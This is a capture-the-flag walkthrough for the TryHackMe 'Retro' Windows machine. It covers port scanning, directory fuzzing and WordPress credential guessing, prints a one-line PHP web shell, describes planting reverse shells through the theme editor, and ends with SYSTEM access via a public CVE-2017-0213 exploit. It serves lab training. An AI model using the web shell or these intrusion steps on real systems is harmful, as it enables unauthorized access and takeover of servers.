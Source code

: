# Retro Writeup

They say there are two paths when completing this room. The first path goes as follows:
* Initial Access
* CVE-2019-1388 for SYSTEM
IF the last step doesn't work for you as it didn't for me you may follow a different path for gaining SYSTEM level access.

https://tryhackme.com/room/retro

## Task 1 Pwn

I started out with a simple nmap scan to check out ports, services, and versions.
```
nmap -sC -sV -oA nmap/common 10.10.119.28
```
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-26T18:12:10+00:00
```
So I knew we were dealing with a windows machine running an IIS webserver and remote desktop protocol enabled. Then I went to enumerate the web server. First I hit it with fuzzing using gobuster.
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15
```
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:15:21 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.204.15/retro/]
```
This gives us the answer to our first question.

From here I poked around the blog page a bit to gather more information. Doing the prequel box, Blaster, before this one helps tremendously as they are very similiar in the initial exploitation phase. We come across a potential username or password in an early blog post.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/blogpost.PNG?raw=true)

I decided to fuzz for more directories within /retro. I quickly see that this is a wordpress site with all the wp directories.
```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15/retro
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15/retro
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:22:41 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 160] [--> http://10.10.204.15/retro/wp-content/]
/wp-includes          (Status: 301) [Size: 161] [--> http://10.10.204.15/retro/wp-includes/
```

So I navigated to `http://10.10.204.15/retro/wp-login.php` to try out these possible credentials. I created a not-so-quick python script to brute force passwords with the username parzival.

I'm not gonna lie this took me WAAY to long to figure out, but wade is the username and the password is the information that we found. After that we are into the wp-admin page.

From prior experience with exploiting wordpress sites I knew I could possibly upload a php reverse shell so I went right to 'Theme Editor' and copied and pasted Pentestmonkey's reverse shell into 'archive.php'. Then I navigated to the location of archives.php in the browser to run the code.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/phppentestmonkey.PNG?raw=true)

Obviously this DOES NOT WORK because the webserver is running on windows not linux.
```
└─# nc -lvnp 4444                                                                      1 ⚙
listening on [any] 4444 ...
connect to [10.6.14.57] from (UNKNOWN) [10.10.204.15] 49891
'uname' is not recognized as an internal or external command,
operable program or batch file.
```




So I swap this shell out with this simple php web shell to see if we can even get RCE. `<?php system($_GET["cmd"]);?>`
Then I navigate back to the location of the archive.php and pass in a parameter for 'cmd'.
![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/webshell.PNG?raw=true)

Great! Now that I know we have RCE and I can try a full reverse shell. I got mine from [here](https://github.com/Dhayalanb/windows-php-reverse-shell). I just had to change the ip and port. Then make the tmpdir = "C:\\inetpub\\wwwroot\\retro\\wp-content\\themes\\90s-retro". 
* Copy and paste the shell into archive.php
* Scroll down and click 'Upload File'
* Then set up a netcat listener in a terminal
* Navigate to archive.php in the browser just like before.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/reverseshell.PNG?raw=true)

After this I remembered that RDP was enabled and just for the hell of it I tried the same credentials from earlier. SURPRISE they work for RDP. This is better than our reverse shell because we have a real account instead of a service account. We can find user.txt at C:\Users\Wade\Desktop\user.txt

THIS WOULD BE THE POINT IN WHICH YOU SHOULD EXPLORE WHAT THE USER WAS TRYING TO FIX WHICH WAS CVE-2019-1388. IF IT DOES NOT WORK FOR YOU DUE TO A POP UP THEN CONTINUE ON.



![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/popup.PNG?raw=true)



After enumerating with windows-exploit-suggester.py I tried a few different CVEs for priviledge escalation but no success. The exploit I finally had success with was [CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213). The CVE is extremely simple to use. You just get the exe file onto the victim  and run it. It will then open up a shell running as SYSTEM.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/root.PNG?raw=true)

Then we can read root.txt at C:\Users\Administrator\Desktop\root.txt.txt

